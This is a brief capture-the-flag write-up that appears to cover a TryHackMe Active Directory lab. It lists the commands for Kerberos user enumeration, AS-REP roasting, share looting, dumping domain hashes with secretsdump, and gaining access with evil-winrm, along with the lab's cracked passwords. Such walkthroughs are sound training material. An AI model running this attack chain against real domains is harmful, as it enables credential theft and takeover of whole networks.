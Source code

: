 Starting with the enumeration we start with a basic nmap scan `sudo nmap -p- 10.201.59.217 -sCV -oN nmap.init` 
We have a the netbios name `THM-AD` and a domain `spookysec.local` 
```
53 DNS
80 IIS webserver 10.0
88 Kerberos
135 RPC
139 netbios-ssn
389 LDAP
445 microsoft-ds
464 kpasswd
593 ncan-http
636
3268 ldap
3269 
3389 RDP
5985 
9389
```
Now we need to kerbrute and find a username `kerbrute username -d spookysec.local --dc 10.201.59.217 userlist.txt` and we got a bunch of accounts but two main ones `svc-admin` and `backup` now we need to get the ticket `impacket-GetNPUsers spookysec.local/svc-admin -no-pass` and now we need to crack the `svc-admin` account `management2005` we can use netexec to look at the shares and then use smbclient to connect to the share `nxc spookysec.local -u svc-admin -p management2005` and we get a couple shares the one were looking for is `backup` `smbclient //spookysec.local/backup -U svc-admin` and we get a file called `backup_credentials.txt` and it has some text that is `base64` encoded and we get some more creds `backup@spookysec.local:backup2517860`  now since we have access to this account and it syncs to the admin account we can use `secretsdump` to dump all the hashes `impacket-secretsdump spookysec.local/backup:backup2517860@10.201.6.235` and we have all the hashes now and we can use `evil-winrm` to auth to the domain
